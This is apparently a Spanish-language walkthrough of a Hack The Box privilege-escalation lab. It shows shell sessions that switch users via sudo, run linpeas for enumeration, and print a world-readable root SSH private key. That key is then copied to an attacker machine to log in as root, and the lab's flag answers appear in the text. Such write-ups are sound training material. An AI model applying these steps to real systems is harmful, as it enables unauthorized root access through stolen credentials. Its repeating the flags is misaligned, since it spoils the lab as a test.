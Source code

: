 ~~~
user1@gettingstartedprivesc-423812-646697d759-wtj9q:~$ sudo -u user2 /bin/bash

user2@gettingstartedprivesc-423812-646697d759-wtj9q:/home$ cd user2
user2@gettingstartedprivesc-423812-646697d759-wtj9q:~$ cat /home/user2/flag.txt
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
~~~

+ Una vez que obtenga acceso a 'usuario2', intente encontrar una manera de escalar sus privilegios a la raíz, para obtener el indicador en '/root/flag.txt'. 

`R: HTB{pr1v1l363_35c4l4710n_2_r007}`

para la segunda pregunta debemos descargar el [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest) y correrlo para enumerar las vulnerabilidades por supuesto lo que debemos hacer es crear un archivo con `vim` donde copiaremos todo lo que esta en el archivo descargado de `linpeas`

~~~
user1@gettingstartedprivesc-423812-646697d759-7dtnj:~$ vim linpeas.sh
user1@gettingstartedprivesc-423812-646697d759-7dtnj:~$ sudo -u user2 /bin/bash
user2@gettingstartedprivesc-423812-646697d759-7dtnj:/home/user1$ /bin/bash ./linpeas.sh
~~~

recordemos que lo unico que puede hacer user2 es ejecutar archivos con bash ejecutamos el linpeas.sh con el comando `/bin/bash ./linpeas.sh`

~~~
...SNIP...
╔══════════╣ Analyzing SSH Files (limit 70)                                       
                                                                                  
-rw-r--r-- 1 root root 2602 Feb 12  2021 /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3nX57B1Z2nSHY+aaj4lKt9lyeLVNiFh7X0vQisxoPv9BjNppQxV
... SNIP ...
7v0aCqLbhyFZBQ9WdyAMU/DKiZRM6knckt61TEL6ffzToNS+sQu0GSh6EYzdpUfevwKL+a
QfPM8OxSjcVJCpAAAAEXJvb3RANzZkOTFmZTVjMjcwAQ==
-----END OPENSSH PRIVATE KEY-----
-rw-r--r-- 1 root root 571 Feb 12  2021 /root/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC3edfnsHVnadIdj5pqPiUq32XJ4tU2IWHtfS9CKzGg+/0GM2mlDFU+1Dxyy8er8Zq2BKjyhXKyRkhFtZvtC8JAjsmxP4+viJ5BrI0igObr6L0XWFfIxzRWwCo
... SNIP ...
/vBiBhenYaGP4bA9yPYiLh+rKdEU/V+zLrOhKM30L3vuEKHklK1Pop/Qh0zrwFwc= root@76d91fe5c270
...SNIP...
~~~

De toda la informacion y vulnerabilidades tomaremos en cuenta la de la conexion SSH porque nos permitira logearnos como root, tenemos en este caso la llave privada lo unico que tenemos que hacer es copiar ese codigo en un archivo de nombre id_rsa, por supuesto esto lo tenemos que hacer desde nuestra pc, para luego volver a ingresar

~~~
┌──(kali㉿kali)-[/home/kali]
└─$ vim id_rsa
~~~

tiene que ir toda la informacion incluso ` -----BEGIN OPENSSH PRIVATE KEY-----` y ` -----END OPENSSH PRIVATE KEY----- `
